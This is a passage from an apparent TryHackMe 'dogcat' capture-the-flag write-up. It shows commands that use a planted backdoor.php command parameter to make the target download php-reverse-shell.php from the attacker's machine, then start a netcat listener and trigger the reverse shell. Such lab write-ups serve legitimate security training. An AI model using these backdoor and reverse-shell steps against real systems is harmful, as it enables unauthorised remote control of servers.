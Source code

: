 Now it's time to initiate a python webserver that will host the PHP script `php-reverse-shell.php` and upload it into the web root `/var/www/html`:
```bash
$ python3 -m http.server 80
$ curl 'http://dogcat.thm/backdoor.php?cmd=curl%20http://<Tun0_IP>/php-reverse-shell.php%20-o%20php-reverse-shell.php'
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 14_46_53-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Uploading php-reverse-shell.php file</i></center>
<br/>

Finally, start a TCP listener on the same port you specified in the script:

```bash
$ nc -nlvp 9999
```

And then run the script `php-reverse-shell.php` by simply browsing to [http://dogcat.php/php-reverse-shell.php](https://dogcat.php/php-reverse-shell.php)

```bash
$ curl 'http://dogcat.thm/php-reverse-shell.php'
```

If everything went well, you should have received a shell on your netcat listener: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 14_59_54-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Reverse shell received</i></center>
<br/>

* Unfortunately, the server does not have `Python` installed, thus preventing us from transforming our shell into a more stable `PTY` shell.
